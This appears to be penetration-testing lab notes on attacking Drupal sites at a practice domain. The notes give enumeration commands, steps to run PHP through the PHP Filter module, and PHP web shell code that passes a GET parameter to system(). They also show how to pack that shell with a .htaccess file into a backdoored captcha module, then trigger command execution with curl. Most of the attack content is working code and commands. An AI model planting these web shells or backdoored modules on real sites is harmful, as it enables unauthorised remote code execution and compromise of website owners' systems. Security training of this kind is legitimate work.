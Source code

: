 # Drupal Attack

### Discovery/Footprinting

```shell-session
curl -s http://drupal.inlanefreight.local | grep Drupal
```

### Enumeration

```shell-session
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

```
droopescan scan drupal -u http://drupal-qa.inlanefreight.local
```

### Attacking Drupal

#### Leveraging the PHP Filter Module

* after login select php filters

```
http://drupal-qa.inlanefreight.local/#overlay=admin/modules
```

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

* From here, we could tick the check box next to the module and scroll down to `Save configuration`. Next, we could go to Content --> Add content and create a `Basic page`.

```
http://drupal-qa.inlanefreight.local/#overlay=node/add
```

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

```
http://drupal-qa.inlanefreight.local/#overlay=node/add/page
```

#### From version 8 onwards,

* the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default.
* To leverage this functionality, we would have to install the module ourselves.

```shell-session
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

* Once downloaded go to `Administration` > `Reports` > `Available updates`.

```
http://drupal.inlanefreight.local/admin/reports/updates/install
```

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

* From here, click on `Browse,` select the file from the directory we downloaded it to, and then click `Install`.
* Once the module is installed, we can click on `Content` and create a new basic page, similar to how we did in the Drupal 7 example. Again, be sure to select `PHP code` from the `Text format` dropdown.

#### Uploading a Backdoored Module

* Drupal allows users with appropriate permissions to upload a new module.
* A backdoored module can be created by adding a shell to an existing module

```shell-session
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
```

```shell-session
tar xvf captcha-8.x-1.2.tar.gz
```

* Create a PHP web shell with the contents:

```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

* Next, we need to create a .htaccess file to give ourselves access to the folder.
  * This is necessary as Drupal denies direct access to the /modules folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

```shell-session
mv shell.php .htaccess captcha
```

```shell-session
tar cvf captcha.tar.gz captcha/
```

* Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar
  * Next, click on the `+ Install new module` button, and we will be taken to the install page, such as `http://drupal.inlanefreight.local/admin/modules/install`&#x20;
  * Browse to the backdoored Captcha archive and click `Install`.

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

```shell-session
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
